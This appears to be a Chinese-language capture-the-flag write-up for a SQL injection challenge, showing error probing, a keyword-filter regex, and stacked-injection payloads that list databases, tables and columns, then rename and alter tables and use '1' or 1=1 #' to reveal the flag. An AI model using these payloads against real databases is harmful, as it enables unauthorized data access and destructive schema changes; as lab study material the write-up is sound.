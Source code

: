 #随便注

先添加一个单引号，报错，错误信息如下：

error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1

接着测试–+注释，发现被过滤，然后使用#注释，可行 用order by语句判断出有两个字段，接着使用union select 爆字段，发现这个时候出现了如下提示：

return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);

发现上面的关键字都被过滤不能使用了，没法进行注入，这个时候尝试一下堆叠注入

现在回到这道题，利用堆叠注入，查询所有数据库：

	1';show databases;#

查询所有表:

	1';show tables;#

查询words表中所有列:

	1';show columns from words;#

查询1919810931114514表中所有列

	1';show columns from `1919810931114514`;#      (字符串为表名操作时要加反引号)

根据两个表的情况结合实际查询出结果的情况判断出words是默认查询的表，因为查询出的结果是一个数字加一个字符串，words表结构是id和data，传入的inject参数也就是赋值给了id

这道题没有禁用rename和alert，所以我们可以采用修改表结构的方法来得到flag 将words表名改为words1，再将数字名表改为words，这样数字名表就是默认查询的表了，但是它少了一个id列，可以将flag字段改为id，或者添加id字段

	1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100);#

这段代码的意思是将words表名改为words1，1919810931114514表名改为words，将现在的words表中的flag列名改为id 然后用1' or 1=1 #得到flag


